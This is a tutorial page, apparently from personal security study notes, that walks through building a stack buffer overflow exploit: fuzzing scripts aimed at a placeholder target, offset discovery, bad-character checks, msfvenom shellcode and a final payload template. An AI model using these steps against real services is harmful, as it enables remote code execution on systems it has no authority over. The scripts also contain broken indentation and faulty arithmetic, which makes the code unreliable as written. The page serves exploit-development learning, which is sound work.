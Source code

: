 ```yaml
---
layout: page
title: Detailed Steps
permalink: /notes/security/BufferOverflow/detailed-steps
notes_section: Security
notes_category: Buffer Overflow
notes_label: Detailed Steps
notes_order: 3
---
```


## Follow these steps:

1. **Fuzzing**
	Write a python program to test and crash the application. Then note down the application's threshold.
	```
	import socket
	import sys

	buffer = "A"*100

	while True:
	try:
		s=socket.socket()
		s.connect(("<target IP>", <target port>))
		print("Connected to the target")
		s.recv(1024)
		print'[*]Sending buffer with length: ' + str(len(buffer))
		s.send(buffer+'\r\n')
		s.close()
		buffer=buffer+'A'*20
	except:
		print'[*]Crashed at buffer length : ' + str(len(buffer)*100)
		sys.exit()
	```

2. Replicating the crash
	Send the exact no.of bytes at which the application crashed to the application.
	```
	import socket
	import sys

	buffer = "A" * <the value at which the application crashed>
	while True:
	try:
		s=socket.socket()
		s.connect(("<target IP>", <target port>))
		print("Connected to the target")
		s.recv(1024)
		print'[*]Sending buffer with length: ' + str(len(buffer))
		s.send(buffer+'\r\n')
		s.close()
	except:
		print'[*]Crash confirmed at buffer length : ' + str(len(buffer)*100)
		sys.exit()
	```

3. Generate random characters using pattern_create.rb script. It requires -l value. Here, the -l value is the no.of bytes at which the application crashed.
	```/path/to/pattern_create.rb -l <crash confirmed value>```

4.  Send the generated pattern as buffer to the target machine/application
	```
	import socket
	import sys

	buffer = <generated pattern in double quotes>
	while True:
	try:
		s=socket.socket()
		s.connect(("<target IP>", <target port>))
		print("Connected to the target")
		s.recv(1024)
		print'[*]Sending the pattern of length: ' + str(len(buffer))
		s.send(buffer+'\r\n')
		s.close()
	except:
		print'[*]Crash confirmed at : ' + str(len(buffer)*100)
		sys.exit()
	```

5. Observe that EIP registers value is changed. Note down that value.
6. Use pattern_offset.rb to find the exact offset of EIP register. It requires -l and -q. -l is the no.of bytes sent and -q is the recently noted EIP value.
7. Now, we have the exact offset of EIP register. If exact offset is 524 for example, send 524 A's and some extra characters to verify the exact offset of the EIP registers.
8. Identify the bad characters of the application by sending some bad characters via the buffer using python
9. Generate a shellcode using msfvenom, while generating, remove the badchars from the shellcode using -b flag. Mention the bad chars in between the apostrophe's. 
10. Identify the jmpesp's memory address. Note down the memory address. Now write the memory address in little endian.
11. For example, if jmpesp's memory is `311712F3`, write it as 
		`\xf3\x12\x17\x31`
12. Little endian is used because x86 architecture understands little endian. send this along with the buffer to the target i.e.,
		`"A"*524 +\xf3\x12\x17\x31 + "c" 8 600`
13.  Add few NOPs, note down the shell code size, subtract the no.of NOPs added and the size of shellcode from the no.of c's
14. Final payload format should be something like,
		`payload= "A"*exact offset + <jmpesp value written in little endian> + "\x90"* 4/8/12/16 + <shellcode> + "c" * 100/200/300/400`
